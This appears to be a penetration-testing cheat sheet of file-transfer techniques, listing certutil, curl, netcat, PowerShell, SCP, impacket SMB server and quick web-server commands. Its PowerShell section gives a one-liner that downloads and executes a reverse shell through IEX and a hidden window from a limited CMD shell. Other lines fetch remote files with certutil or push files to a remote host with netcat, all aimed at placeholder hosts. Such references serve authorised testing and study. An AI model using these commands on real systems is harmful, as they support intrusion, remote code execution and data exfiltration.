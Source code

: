 # Methods

Copy & paste with base64 encoding.
`certutil` Download files.
`curl` Retrieve remote files.
`impacket-smbserver` Temporary SMB server.
`invoke-webrequest` PowerShell HTTP request.
`nc` Netcat file copy.
`net.webclient` PowerShell HTTP request.
`python` Temporary web server.
`scp` Remote file copy via SSH.
`wget` Retrieve remote files.

# certutil

`certutil -urlcache -f http://ipaddress/filename outputfilename`

# FTP

Use ASCII mode for transferring text files.
`ascii`

Use binary mode for transferring all other file types.
`binary`

# Netcat

Receiving End
`nc -lvnp port > destination_file`

Sending End
`nc -w3 destination_ip port < source_file`

# PowerShell

Download & Execute New (Stable) Revshell from Limited CMD Shell
```
start /b "" powershell -c iex (new-object net.webclient).downloadstring('http://ipaddress/file')

Notes:
start is to prevent session from locking up.
/b forces NO new window for the shell.
"" sets an empty window title.
```

Invoke Web Request
`Invoke-WebRequest "http://url/file" -OutFile "filepath\filename"`

Web Client
`IEX(new-object net.webclient).downloadstring('http://url/file')`

# SCP

Local to Remote
`scp -i id_rsa file user@remote-host:/remote/dir`

# SMB Server

```
impacket-smbserver -smb2support -username user -password pass share /local/dir

net use x: \\ipaddress\share /user:user pass
```

# Web Server

PHP
`php -S host:port`

Python
`python -m http.server port`

